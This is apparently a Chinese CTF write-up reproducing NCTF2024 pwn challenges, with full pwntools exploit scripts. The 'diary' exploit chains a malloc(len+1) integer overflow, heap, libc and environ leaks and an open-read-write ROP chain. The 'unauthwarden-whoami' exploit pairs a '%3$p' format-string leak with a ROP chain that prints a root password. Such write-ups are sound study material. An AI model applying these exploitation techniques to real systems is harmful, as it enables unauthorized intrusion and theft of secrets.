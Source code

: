 # NCTF2024【复现】

注：由于本人实在太菜，因此没有做出任何题目，仅对所有赛题进行复现

## diary

是基于fork的server，因此不能采用system(/bin/sh);

**为什么交互式 Shell 会失败？**

- **文件描述符继承是关键：** 当孙子进程通过 `exec` 启动 `/bin/sh` 时，它**继承了创建它的进程（即原服务器子进程）的文件描述符**。
- **标准输入/输出/错误指向哪里？** 在典型的 `fork` 服务器子进程中，文件描述符 0 (标准输入 stdin), 1 (标准输出 stdout), 和 2 (标准错误 stderr) 通常都指向**子进程**用来与客户端通信的那个网络连接套接字 `conn_fd`。因为子进程是从父进程那里继承了这个 `conn_fd`，并且通常会用它来进行读写。
- 失败的原因：
  1. **`/bin/sh` 的感知：** 当 `/bin/sh` 启动时，它检查其标准输入输出。发现它们连接到一个套接字而不是一个终端(TTY/PTY)时，它可能不会进入完全的交互模式。
  2. **标准 I/O 缓冲：** 这是最常见的问题。当 `/bin/sh` (在孙子进程中) 向标准输出 (FD 1，指向 `conn_fd`) 写入数据时（比如命令提示符或命令执行结果），数据并不会立即通过网络发送。因为标准输出连接到套接字时，通常使用**全缓冲 (Full Buffering)**。数据会被暂存在内存缓冲区里，直到缓冲区满了，或者 `/bin/sh` 进程显式地刷新缓冲区（`fflush`）或退出时，数据才会被真正写入 `conn_fd` 发送出去。这就导致了交互的延迟或完全不响应。标准输入也可能存在类似问题。
  3. **子进程可能提前关闭 FD：** 在某些服务器逻辑下，子进程可能在处理完合法请求（或者发生错误）后、但在 `system()` 被非预期地调用之前，就已经关闭了 `conn_fd`。这样，即使孙子进程启动了 `/bin/sh`，它的输入输出也无处可去。
  4. **`system()` 本身的机制：** 如前所述，`system()` 通过 `sh -c` 执行命令，这主要是为了执行单个命令并获取结果，而不是为了启动一个持久的交互式会话。

***另外地\***，在orw途中，由于标准输入0、标准输出1、标准错误2都被绑定在socket上面，因此如果直接打印到fd=0、1、2我们无法看见，最终做法是write(4,flag,len);，为什么呢？

程序fork时，父进程中已使用的 FD 有 0, 1, 2 (标准流) 和 3 (`listen_fd`)。因此，`accept()` 返回的**新的连接套接字 `conn_fd`** 得到的编号是 **4**，而子程序关闭listen_fd，因此编号为3的fd就空出来了作为之后open(flag)的fd，而write写向fd=4即socket我们就可以得到flag

![img](images/nctf1.png)

漏洞点在于malloc(len+1)

![img](images/nctf2.png)

如果Len为0xffffffff的话malloc会malloc(0)，**而我们使用对应的Len进行堆溢出**

***堆地址：\***通过溢出一个0从而打印出堆地址。

***libc地址：\***通过申请一个0x2000000的堆块塞满bss和libc的地址，打印leak出libc

通过environ泄露栈地址，**environ是一个与栈有固定偏移的地址，可以绕过ASLR**

把chunk分配到栈，最后orw读取文件

```
┌──(kali㉿kali)-[~/Desktop/nctf]
└─$ cat exp       
from pwn import *
k = process('./pwn')
io = remote("127.0.0.1",9999)
libc = ELF('libc.so.6')
context(os='linux',arch='amd64')
def add(len,con):
    io.send(b'1')
    io.sendafter(b'Input length:\n',str(len).encode())
    io.sendlineafter(b'Input content:\n',con)
def dele(idx):
    io.send(b'2')
    io.sendafter(b'Input index:\n',str(idx).encode())
def edit(idx,con):
    io.send(b'3')
    io.sendafter(b'Input index:\n',str(idx).encode())
    io.sendlineafter(b'Input content:\n',con)
def show(idx):
    io.send(b'4')
    io.sendafter(b'Input index:\n',str(idx).encode())

add(0x80,b'a')
add(0xffffffff,b'\x00')
add(0x80,b'a')
add(0x80,b'a')
edit(1,b'a'*0x20)
show(2)
log.info("[*]overflow the \x00 to cover the pointer and then leak the address")
io.recvuntil(p64(0x21))
heap_base = u64(io.recv(8)) - 0x370
log.info("[*]heap addr : "+hex(heap_base))
dele(1)
add(0x2000000,b'a')
show(2)
io.recvuntil(p64(0x21))
libc_base = u64(io.recv(8)) - 0x7f6e3c800010 + 0x7f6e3ea00000
log.info("[*]libc addr : "+hex(libc_base))
environ = libc_base + 0x7f6e3ec0ad58 - 0x7f6e3ea00000
log.info("[*]envi addr : "+hex(environ))
dele(1)
add(0xffffffff,b'\x00')
edit(1,b'\x00'*0x18 + p64(0x21) + p64(environ) + p64(0x81))
show(2)
io.recvuntil(b'Content:\n')
stack_addr = u64(io.recv(8)) + 8 + 0x7ffd95677750 - 0x7ffd956779a8
log.info(hex(stack_addr)) 
#this stack addr is Menu function's ret addr
pop_rdi_ret = libc_base + 0x10f75b
pop_rsi_ret = libc_base + 0x10f759
#pop_rsi_pop_r12_ret
magic = libc_base + 0xb0133
#mov rdx,rbx; pop rbx; pop r12; pop rbp; retn
pop_rbx_ret = libc_base + 0x586e4
open = libc_base + libc.symbols['open']
write = libc_base + libc.symbols['write']
read = libc_base + libc.symbols['read']
edit(0,b'flag\x00\x00')
flag = heap_base + 0x2c0
ROP = p64(pop_rdi_ret) + p64(flag) + p64(pop_rsi_ret) + p64(0) + p64(0) + p64(open)
#OPEN_FUNC
ROP += p64(pop_rdi_ret) + p64(0x3) + p64(pop_rsi_ret) + p64(heap_base+0x50) + p64(0) + p64(pop_rbx_ret) + p64(0x30) + p64(magic) + p64(0x30) + p64(0) + p64(stack_addr+0x100) + p64(read)
ROP += p64(pop_rdi_ret) + p64(0x4) + p64(write)
print(hex(pop_rsi_ret))
edit(1,b'\x00'*0x18 + p64(0x21) + p64(stack_addr) + p64(0x101))
edit(2,ROP)
io.send(b'5')
io.interactive()
```
## unauthwarden-whoami



```
from pwn import *
env={'LD_LIBRARY_PATH': '/opt/intel/sgxsdk/lib64:$LD_LIBRARY_PATH'}
io = process('./test_app',env=env)
context(os = 'linux',arch = 'amd64',log_level='debug')
def register(usr,pwd):
    io.sendafter(b'>> ',b'2')
    io.sendafter(b'Enter username: ',usr)
    io.sendafter(b'Enter password: ',pwd)
def login(usr,pwd):
    io.sendafter(b'>> ',b'1')
    io.sendafter(b'Enter username: ',usr)
    io.sendafter(b'Enter password: ',pwd)
def add(usr,pwd):
    io.sendafter(b'>> ',b'1')
    io.sendafter(b'Enter username: ',usr)
    io.sendafter(b'Enter password: ',pwd)
def show(idx):
    io.recvuntil(b'>> ')
    io.send(b'2')
    io.sendafter(b'Enter record index (1-5): ',str(idx).encode())
def logout():
    io.recvuntil(b'>> ')
    io.send(b'6')
def send_seal(data):
    io.recvuntil(b'>> ')
    io.send(b'4')
    if io.recv(6) == b'Sealed':
        io.sendlineafter(b'to reject.\n', b'y')
    io.sendlineafter(b'to seal: ', str(len(data)).encode())
    for i in range(0, len(data), 0x100):
        io.sendafter(b'batch):', data[i: i + 0x100])
    io.sendlineafter(b'(y/n): ', 'y'.encode())
def show_seal():
    io.recvuntil(b'>> ')
    io.send(b'5')

register(b'%3$p',b'123')
login(b'%3$p',b'123')
io.recvuntil(b'back, ')
addr = int(io.recvuntil(b'\n',drop=True).decode(),16) - 0x2719f4
log.info(hex(addr))
#gdb.attach(io)
pop_rdi_ret = addr + 0x3e34
root_pwd = addr + 0x11c020
printf = addr + 0x10B3
ret = addr + 0x1052
gdb.attach(io)
send_seal(b'?' * 256 + b'!' * 0x8 + p64(pop_rdi_ret) + p64(root_pwd) + p64(ret) + p64(printf)+b'')

io.interactive() 
```

![img](images/nctf4.png)

